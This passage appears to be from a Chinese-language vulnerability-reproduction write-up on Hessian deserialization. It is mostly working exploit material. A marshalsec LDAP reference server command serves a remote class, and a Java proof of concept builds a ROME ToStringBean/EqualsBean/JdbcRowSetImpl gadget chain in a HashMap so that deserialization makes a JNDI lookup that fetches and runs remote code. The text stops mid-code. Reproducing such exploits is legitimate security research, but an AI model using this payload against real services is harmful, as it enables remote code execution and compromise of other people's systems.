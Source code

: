 ```
```

## 漏洞复现

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#exp
```

```
package UnserTest;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class remotest {
    public static void main(String[] args) throws Exception {
        //反序列化时ToStringBean.toString()会被调用，触发JdbcRowSetImpl.getDatabaseMetaData->JdbcRowSetImpl.connect->Context.lookup
        String jndiUrl = "ldap://127.0.0.1:1389/exp";
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        rs.setDataSourceName(jndiUrl);
        rs.setMatchColumn("foo");

//反序列化时EqualsBean.beanHashCode会被调用，触发ToStringBean.toString
        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);

//反序列化时HashMap.hash会被调用，触发EqualsBean.hashCode->EqualsBean.beanHashCode
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

//HashMap.put->HashMap.putVal->HashMap.hash
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(s);
        hessian2Output.flushBuffer();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        System.out.println(new String(bytes, 0, bytes.length));
        // hessian2的反序列化
```